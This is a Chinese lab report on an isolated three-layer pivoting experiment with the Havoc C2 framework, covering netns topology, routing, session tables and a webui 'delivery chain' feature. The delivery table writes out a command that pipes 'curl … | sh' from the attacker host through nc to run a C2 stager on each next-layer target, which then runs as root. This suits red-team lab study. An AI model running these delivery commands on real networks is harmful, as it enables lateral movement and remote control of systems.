



# 三层隔离内网跳板实验报告

- 时间：2026-11-11 02:11 ~ 02:15（Asia/Shanghai）
- 环境：Kali `192.168.121.132`，Havoc teamserver `:40056`，Web 网关 `:8081`，stager `:9901`
- 网络：Linux network namespace + veth + 静态路由，完全本机隔离（不涉及 `192.168.1.0/24` 或公网）
- 入口会话：`4c0b4946`（Linux，`/tmp/demon-sock.elf`，sleep 0，Kali 本机）

## 1. 拓扑

```text
Kali 192.168.121.132
  │ hlab-br0 10.10.0.1/24
  ▼
hlab-hop1 10.10.0.2/24 · lab1 10.10.10.1/24
  ├── hlab-t1  10.10.10.10/24      ← 第一层
  └── hlab-hop2 10.10.10.2/24 · lab2 10.10.20.1/24
         ├── hlab-t2  10.10.20.10/24 ← 第二层
         └── hlab-hop3 10.10.20.2/24 · lab3 10.10.30.1/24
                └── hlab-t3 10.10.30.10/24 ← 第三层
```

Kali 路由：

```text
10.10.10.0/24 via 10.10.0.2 dev hlab-br0
10.10.20.0/24 via 10.10.0.2 dev hlab-br0
10.10.30.0/24 via 10.10.0.2 dev hlab-br0
```

跳板机路由：hop1 默认 `10.10.0.1`，`10.10.20/30` 走 `10.10.10.2`；hop2 默认
`10.10.10.1`，`10.10.30` 走 `10.10.20.2`；hop3 默认 `10.10.20.1`。
目标机默认网关分别为 `10.10.10.1` / `10.10.20.1` / `10.10.30.1`。

## 2. 投递链路（经已有会话 + shell + 一键上线）

| 层 | 源会话 | 目标 | 命令 | 任务 ID | 结果 |
| --- | --- | --- | --- | --- | --- |
| 1 | `4c0b4946` | `10.10.10.10:2222` | `printf '%s\n' 'curl -fsSL http://192.168.121.132:9901/slt \| sh' \| nc -w 30 10.10.10.10 2222` | `F8501067` | `[+] started demon (x64)` → `55870791` |
| 2 | `55870791` | `10.10.20.10:2222` | 同上，目标 `10.10.20.10` | `43A01CB1` | `[+] started demon (x64)` → `052cb5de` |
| 3 | `052cb5de` | `10.10.30.10:2222` | 同上，目标 `10.10.30.10` | `206F4030` | `[+] started demon (x64)` → `47ec4652` |

`lab/execd.py` 只监听实验网地址 `:2222`，模拟跳板机上的 SSH/WinRM 横向通道；
每次投递均为「上一层会话的 shell → nc → 下一层执行一键上线 → agent 回连 teamserver」。

## 3. 三层会话

| 层 | 会话 ID | 外部/内部地址 | 用户 | 进程 / PID | 上线时间 | 健康 |
| --- | --- | --- | --- | --- | --- | --- |
| 1 | `55870791` | `10.10.10.10` / `10.10.10.10` | root | `/tmp/.hx64.2333970` / `2333977` | 02:12:07 | healthy |
| 2 | `052cb5de` | `10.10.20.10` / `10.10.20.10` | root | `/tmp/.hx64.2334291` / `2334301` | 02:12:30 | healthy |
| 3 | `47ec4652` | `10.10.30.10` / `10.10.30.10` | root | `/tmp/.hx64.2334528` / `2334535` | 02:12:47 | healthy |

三层 agent 均直接回连 `192.168.121.132:8080`；`pivot_parent` 为空，
Web 拓扑图中是 TEAMSERVER 的直属绿色节点（Havoc 的 `pivot_parent` 只表达 SMB pivot
这类 agent 内隧道，网络层跳板不会出现在拓扑边上）。



## 4. 连通性/层级验证

### 4.1 从各层会话回显

```text
# 55870791 (t1)
root
eth0  10.10.10.10/24
default via 10.10.10.1
10.10.10.0/24 dev eth0 proto kernel scope link src 10.10.10.10

# 052cb5de (t2)
root
eth0  10.10.20.10/24
default via 10.10.20.1

# 47ec4652 (t3)
root
eth0  10.10.30.10/24
default via 10.10.30.1
```

### 4.2 TTL / 跳数证据

| 源 → 目的 | TTL | 说明 |
| --- | --- | --- |
| t1 `10.10.10.10` → t3 `10.10.30.10` | 62 | 经 hop1→hop2（收到 hop1 的 ICMP Redirect，后续直发 hop2） |
| t2 `10.10.20.10` → t1 `10.10.10.10` | 62 | 经 hop2→hop1 |
| t3 `10.10.30.10` → t1 `10.10.10.10` | 61 | 经 hop3→hop2→hop1 |

### 4.3 宿主视角

`lab/run/verify.txt` 记录了 Kali 到三层目标的 ping（TTL 63/62/61）与 `:2222`
命令通道回显；`ip netns exec` 的地址/路由表也完整保存在该文件。

### 4.4 Web 拓扑的投递链虚线

Havoc 的拓扑实线来自 `PivotParent`，只覆盖 SMB pivot 这类 agent 级隧道；本次
`shell` 投递出来的新会话没有 `PivotParent`，所以在 C2 拓扑上是 TEAMSERVER 的
直属节点。为了在 Web 端表达“谁投递了谁”，webui 新增了独立的 `delivery_parent`：

- 自动：解析 `shell` 里的 `/slt`、`/swt` 命令与 `nc/winrs/ssh/psexec` 目标 IP，
  新会话上线后按 IP + 300s 时间窗匹配；本次用 `55870791 → 10.10.20.10` 重新投递
  验证，新会话 `6dc26f32` 自动得到 `delivery_parent=55870791`、task `4E89F0A5`，
  随后已清理；
- 手动：三层实验的三个会话通过
  `POST /api/sessions/{id}/delivery-parent {"parent":"..."}` 建立
  `55870791 → 052cb5de → 47ec4652`，边保存在 `data/delivery_edges.json`（0600）；
- 右键会话菜单「投递链」可改父会话/清除，`视图 → 投递链虚线` 可开关；
  虚线与 `PivotParent` 的蓝边互不影响，也不修改 teamserver/Qt。





## 5. 结论

- 三层网络隔离与路由正确，`Kali → lab1 → lab2 → lab3` 可达且可回连。
- 「已有会话 → shell → 一键上线」链路逐层成立：每层新 agent 由上一层会话投递，
  回连地址统一为 Kali 的 `192.168.121.132:8080`。
- 三层 agent 均为 root（实验用的 execd 以 root 运行 stager）；netns 共享 UTS，
  因此 `hostname` 都是 `bogon`，用 `ip -brief addr` 的 `10.10.x.10` 区分层级。
- 入口会话 `4c0b4946` 的 `os=Unknown`、`platform=linux`，首次投递时网关构造
  `SessionRef` 未带 platform，导致 `shell` 走了 Windows 分支并多打了一行
  `chcp: not found`（命令仍由 Linux Demon 以 `/bin/sh` 执行成功）。
  **已修复并验证**：`SessionRef` 增加 `platform` 字段，`_is_linux()` 同时判断
  `platform=linux`；网关重启后任务 `FFDB21EC` 的 `note` 为「通过 /bin/sh 执行」，
  输出 `kali` / `eth0 192.168.121.132/24`，无 `chcp` 前缀。

## 6. 复现与清理

```bash
cd /home/kali/桌面/Havoc
sudo bash lab/setup_lab.sh     # 建网（需要 root）
# 按第 2 节三条命令依次投递
sudo bash lab/teardown_lab.sh  # 清理 netns/网桥/路由（三层会话随之消失）
```

产物：

- `lab/run/lab.json`：拓扑与投递命令
- `lab/run/verify.txt`：建网验收
- `lab/run/three-layer-sessions.png`：Web 会话表（三层会话在底部）
- `lab/run/three-layer-topology.png`：C2 拓扑图（三层均为 TEAMSERVER 直属节点）
- `lab/run/delivery-chain-graph.png` / `delivery-chain-graph-crop.png`：投递链虚线
- `lab/run/delivery-chain-table.png`：会话表 `↳` 投递标记
- `lab/run/execd-t{1,2,3}.log`：每层投递日志
